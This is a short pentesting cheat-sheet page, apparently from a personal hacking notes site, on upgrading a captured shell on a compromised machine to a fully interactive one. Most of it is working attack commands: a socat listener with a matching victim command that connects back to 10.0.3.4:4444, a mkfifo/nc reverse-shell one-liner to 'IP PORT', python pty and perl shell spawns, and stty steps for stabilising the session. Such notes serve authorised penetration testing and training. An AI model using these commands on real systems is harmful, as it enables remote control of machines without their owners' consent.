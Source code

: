 ```yaml
---
title: Upgrade Interactive Shell
parent: Exploit / Initial Access
layout: default
nav_order: 2
---
```


Only the following 2 can get you an interactive shell:
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Socat (is in /usr/bin):\
Listener: `socat file:tty,raw,echo=0 tcp-listen:4444`\
Victim: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444`

The following help in getting shell, but will not be fully interactive.\
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f`\
`/bin/sh -i`(or bash)\
`perl -e 'exec "/bin/sh";'`\
`:!bash` (from VIM)\
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys\
Failed to upgrade interactive shell, and want to ssh tunnel? Read (TBD LINK TO SSH)

Actual way to get a fully stabilise shell:
1. use python first: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. enable term command: `export TERM=xterm`
3. Press Ctrl+Z, then in our own terminal use `stty raw -echo; fg`
4. After finish (`exit` a few times) using or if shell dies, you wont be able to do anything, to fix type `reset` and press enter.